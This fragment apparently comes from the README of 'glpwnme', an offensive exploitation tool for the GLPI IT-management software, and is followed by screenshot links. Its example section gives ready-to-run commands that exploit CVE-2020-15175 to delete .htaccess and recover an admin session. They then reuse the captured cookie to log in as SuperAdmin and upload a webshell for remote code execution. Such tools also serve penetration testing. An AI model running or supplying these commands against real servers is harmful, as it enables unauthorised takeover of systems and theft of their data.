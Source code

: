 ## Example
### RCE on glpi < 9.5.2
```bash
python3 glpwnme -t <target> -e CVE_2020_15175 --run # delete .htaccess and recover an admin session
python3 glpwnme -t <target> -e PHP_UPLOAD -O file=webshell.php --run --cookie <cookie> --profile SuperAdmin # Login as admin with a cookie recovered before and upload a webshell.php on glpi

# Do not forget to check your log for restoring the .htaccess and keep the api_key
cat log.glpwnme
```

## Screenshots

![Vulnerabilities check](./images/glpwnme_check_all.png)

![Exploitation of CVE 2024 27937](./images/cve_2024_27937_example_glpwnme.png)
